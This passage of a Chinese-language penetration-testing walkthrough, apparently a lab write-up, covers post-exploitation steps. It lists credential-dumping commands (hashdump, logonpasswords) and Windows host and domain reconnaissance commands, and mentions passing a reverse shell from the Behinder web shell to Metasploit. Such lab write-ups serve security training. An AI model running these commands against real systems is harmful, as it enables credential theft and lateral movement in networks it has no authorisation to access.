 
### 信息收集

#### 抓取明文密码

```
hashdump
logonpasswords
```

![image-20220907163238560](./st2.assets/image-20220907163238560.png)



#### 主机信息

> 常用命令
>
> systeminfo  				//查看操作系统信息
> ipconfig /all  				//查询本机ip段，所在域等
> whoami   					//查看当前用户权限
> net user						//查看本地用户
> net localgroup administrators	//查看本地管理员组(通常 包含域用户)



系统信息

![image-20220908182619727](./st2.assets/image-20220908182619727.png)



IP 信息

![image-20220908183702411](./st2.assets/image-20220908183702411.png)

两个网络

> 192.168.111.80
>
> 10.10.10.80



还是 MSF 用着顺手，用冰蝎反弹 Shell 过去

![image-20220908184546973](./st2.assets/image-20220908184546973.png)



#### 域信息收集

> 常用命令：
>
> net config workstation     				// 查看当前计算机名，全名，用户名，系统版本，工作站域，登陆的域等
> net view /domain              				// 查看域
> net time /domain          					// 主域服务器会同时作为时间服务器
> net user /domain      						// 查看域用户
> net group /domain							// 查看域内用户组列表
> net group "domain computers" /domain      	// 查看域内的机器
> net group "domain controllers" /domain          // 查看域控制器组
> net group "Enterprise Admins" /domain   		// 查看域管理员组
